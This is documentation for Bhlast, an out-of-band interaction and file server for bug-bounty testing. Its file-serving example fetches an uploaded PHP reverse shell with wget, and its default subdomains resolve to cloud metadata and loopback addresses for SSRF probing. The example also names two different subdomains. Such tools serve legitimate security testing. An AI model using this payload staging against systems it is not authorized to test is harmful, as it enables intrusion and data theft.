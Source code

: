 ﻿# Bhlast

## Motivation

Blind attacks are somewhat difficult, since you have to have a server that will listen to interactions.

Burp collaborator is a great way to listen to interactions, but if you want your server to listen to interactions even when you are not hacking, you have to use some other site.

ProjectDiscovery published an amazing tool called [interactsh](https://github.com/projectdiscovery/interactsh), which allows you to self-host it to leverage some features.

Since this platform is meant to eliminate as much of the boring work that you need to do in order to be successful, and to work on the stuff while you are not hacking, having this functionality is a **must**.

::alert{type="info"}
Thank you to ProjectDiscovery for open-sourcing this great tool! Bhlast implementation is heavily influenced by your work.
::

## How it works?

New server is registered behind the [bhlast.com](https://bhlast.com) domain.

In order to create your unique server, you have to have an account on the [BountyHub](https://bountyhub.org) platform.

Each server gets random subdomain unique to your account. In order to avoid having spam notifications, please do not share your
`bhlast` server publically. Every interaction with this server will be tracked, and you will get notified for no good reason.

Server is listening on following:

::list{type="primary"}
- HTTP (TCP port 80)
- HTTPS (TCP port 443)
- DNS (TCP and UDP port 53)
- Serve static files
- Get notified on interactions
::

## Default behavior

### HTTP

When you visit the [bhlast.com](https://bhlast.com), static page will be displayed. This static page is only used to point you to the documentation, and to show basic information about this server.

### DNS

Each `bhlast` server gets its own subdomain. Each subdomain is unique random lowercase alphanumeric string. Every interaction with that subdomain will be recorded.

By default, you will also get following subdomains:

- aws.\[id\].bhlast.com -> 169.254.169.254
- alibaba.\[id\].bhlast.com -> 100.100.100.200
- localhost.\[id\].bhlast.com -> 127.0.0.1
- oracle.\[id\].bhlast.com -> 127.0.0.1

## Server registration and configuration

### Registration

Once you are logged into the platform, on the right drawer, you will see tab named `Bhlast servers`. Click on it.

![Bhlast servers](/drawer-bhlast.png)

On top of the page, you will see `Register Server` button. Click on it, and you will be taken to the registration page.

## Working with your server

Your `bhlast` server can be used to:

- Track interactions
- Serve files
- Standard responses

### Tracking interactions

Interactions are shown for each request that is associated with your subdomain. The `[id]` portion of your subdomain is
the identifier used to associate interaction with it. In other words, let's say your subdomain is `lwwhkmc4n2ziyu3d`. Then
all traffic directed to `lwwhkmc4n2ziyu3d.bhlast.com` and `*.lwwhkmc4n2ziyu3d.bhlast.com` is registered associated with your
server.

![Bhlast logs](/bhlast-log.png)

### Serving files

Your server can also be used as a file server. Think of it as `python3 -m http.server 80`, but listening both on port 80 and 443.

In order to serve file, route `/-/` is exposed for that purpose.

As an example, let's say your server is located at `lwwhkmc4n2ziyu3d.bhlast.com`. You uploaded a `php-rev-shell.php`.
You can retrieve it by running `wget https://o66322a9ufqn02o0.bhlast.com/-/php-rev-shell.php`. The important thing to note
is that the interaction on your file server is also tracked, so you can later prove that server pulled the file.

### Standard responses

By default, subdomain reversed will be served as a string. However, there are special cases to change format
of responses.

| Path                     | Response format                                                        |
| ------------------------ | ---------------------------------------------------------------------- |
| Path ending with `.xml`  | The result will be in format `<data>[reverse subdomain string]</data>` |
| Path ending with `.json` | The result will be in format `{"data": "[reverse subdomain string]"}`  |
| `/robots.txt`            | `User-agent: *\nDisallow: / # [reverse subdomain string] `             |

## Rate limits

To avoid misuse or malicious use of bhlast servers, the rate limiter is implemented.

| Server type | Global rate limit / s | Per IP rate limit / s |
| ----------- | --------------------- | --------------------- |
| DNS         | 5000                  | 10                    |
| HTTP(s)     | 5000                  | 20                    |

Furthermore, if the number of questions in a DNS query exceeds 8, the DNS request will be rejected completely.
This should reduce DNS amplification attacks.
